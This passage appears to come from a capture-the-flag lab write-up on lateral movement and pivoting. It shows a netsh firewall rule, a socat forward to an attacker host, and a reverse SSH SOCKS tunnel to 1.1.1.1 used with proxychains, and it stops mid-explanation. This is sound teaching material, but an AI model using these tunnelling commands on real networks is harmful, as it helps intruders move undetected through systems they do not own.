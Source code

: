 As usual, since a port is being opened on the pivot host, we might need to create a firewall rule to allow any connections to that port:

```
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

If, on the other hand, we'd like to expose port 80 from the attacker's machine so that it is reachable by the server, we only need to adjust the command a bit:

```
C:\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80
```

As a result, PC-1 will spawn port 80 and listen for connections to be forwarded to port 80 on the attacker's machine:

<img src="/assets/images/THM/Lateral%20Movement%20and%20Pivoting/16.png" width="80%">

### <font color="#FFA500">Dynamic Port Forwarding and SOCKS</font>

While single port forwarding works quite well for tasks that require access to specific sockets, there are times when we might need to run scans against many ports of a host, or even many ports across many machines, all through a pivot host. In those cases, **dynamic port forwarding** allows us to pivot through a host and establish several connections to any IP addresses/ports we want by using a **SOCKS proxy**.

Since we don't want to rely on an SSH server existing on the Windows machines in our target network, we will normally use the SSH client to establish a reverse dynamic port forwarding with the following command:

```
C:\> ssh tunneluser@1.1.1.1 -R 9050 -N
```

In this case, the SSH server will start a SOCKS proxy on port `9050`, and forward any connection request through the SSH tunnel, where they are finally proxied by the SSH client.

The most interesting part is that we can easily use any of our tools through the SOCKS proxy by using **proxychains**. To do so, we first need to make sure that proxychains is correctly configured to point any connection to the same port used by SSH for the SOCKS proxy server. The proxychains configuration file can be found at `/etc/proxychains.conf` on your AttackBox. If we scroll down to the end of the configuration file, we should see a line that indicates the port in use for socks proxying:
